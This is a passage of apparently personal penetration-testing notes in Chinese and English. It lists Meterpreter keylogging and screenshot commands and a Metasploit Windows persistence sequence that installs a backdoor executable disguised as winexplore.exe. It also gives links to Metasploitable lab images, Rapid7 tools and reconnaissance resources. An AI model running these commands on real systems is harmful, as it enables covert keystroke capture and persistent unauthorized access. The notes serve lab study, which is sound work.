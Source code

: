 ### keylogs
keyscan_start
keyscan_dump
screenshot

### 执久化

background
use exploit/windows/local/persisstence
show options
set EXE_NAME winexplore.exe
show advanced
set EXE:Custom /var/www/html/backdoors/kirk_newpayload.exe
exploit 就会注射到前面的会话中去

## website

### vm images: metasploitable
https://securingninja.com/how-to-install-metasploitable-in-virtualbox/
https://sourceforge.net/projects/metasploitable/files/Metasploitable2/

https://github.com/rapid7/metasploitable3
好像用于es迁移的
https://github.com/rapid7/elasticsearch-drain
A modern vulnerable web app
https://github.com/rapid7/hackazon
System Information Gatherer And Reporter
https://github.com/rapid7/sigar
Unified repository for different Metasploit Framework payloads
https://github.com/rapid7/metasploit-payloads
https://github.com/rapid7/mettle
This is an implementation of a native-code Meterpreter, designed for portability, embeddability, and low resource utilization.
https://github.com/rapid7/appspider-pentestkit
rubytool:Pattern recognition for hosts, services, and content
https://github.com/rapid7/recog
Packaging metasploit-framework with omnibus
https://github.com/rapid7/metasploit-omnibus


### maltego
apt install maltegoce
website
all transforms

google: wordpress exploit
### netcraft
google: website infomation gathering

https://archive.org/
